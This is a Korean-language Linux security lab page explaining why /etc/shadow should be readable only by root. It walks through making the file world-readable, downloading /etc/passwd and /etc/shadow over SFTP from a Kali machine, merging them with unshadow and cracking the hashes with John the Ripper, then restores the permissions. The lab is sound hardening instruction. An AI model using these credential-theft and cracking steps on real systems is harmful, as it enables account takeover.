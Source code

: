 ## /etc/shadow 파일 소유자 및 권한 설정

왜 `root` 외의 일반 사용자가 `/etc/shadow` 파일 내용을 볼 수 없도록 설정(접근 권한이 `400` 이하)해야 하는지 알아봅시다.

### 실습 1 : 공격자가 원격에서 일반 사용자로 접속하여 `/etc/shadow` 파일 탈취 및 패스워드 크래킹
1. [우분투] `sudo` 명령을 사용할 수 없는 일반 사용자 `aaa` 생성
```
cju@wooam:~$ sudo adduser aaa
```

2. [우분투] 누구나 `/etc/shadow` 파일을 볼 수 있도록 변경
```
cju@wooam:~$ sudo chmod 444 /etc/shadow
```

3. [우분투] 원격 접속을 위해 OpenSSH 서버 설치
```
cju@wooam:~$ sudo apt install openssh-server
```

4. [우분투] IP 주소 확인
```
cju@wooam:~$ ip a
```

5. [칼리] 앞에서 확인한 IP 주소로 접속
```
$ sftp aaa@192.168.xxx.yyy
aaa@192.168.202.xxx's password: 
Connected to 192.168.202.xxx.
```

6. [칼리] 우분투의 `/etc/passwd` 파일 다운로드
```
sftp> get /etc/passwd
Fetching /etc/passwd to passwd
passwd                                     100% 2967     2.2MB/s   00:00    
```

7. [칼리] 우분투의 `/etc/shadow` 파일 다운로드
```
sftp> get /etc/shadow
Fetching /etc/shadow to shadow
shadow                                     100% 1585     1.1MB/s   00:00    
```

8. [칼리] SFTP 접속 종료
```
sftp> bye
```

9. [칼리] 다운로드한 2개의 파일을 하나로 통합
```
$ unshadow passwd shadow > ubuntu
```

10. [칼리] John the Ripper로 패스워드 크래킹 시작
```
$ john --format=crypt ubuntu
```

11. [칼리] 패스워드가 보인다!
```
1111             (cju)     
1111             (aaa)     
```

> (참고) 크래킹에 성공한 해시 값과 패스워드는 `.john/john.pot`에 저장됨

### 복구
1. [우분투] 다른 사용자가 `/etc/shadow` 파일 내용을 볼 수 없도록 권한 변경
```
cju@wooam:~$ sudo chmod 400 /etc/shadow
```

2. [우분투] (필요시) 생성한 계정 삭제
```
cju@wooam:~$ sudo deluser --remove-all-files aaa
```

3. [우분투] (필요시) OpenSSH 서버 제거
```
cju@wooam:~$ sudo apt remove openssh-server
```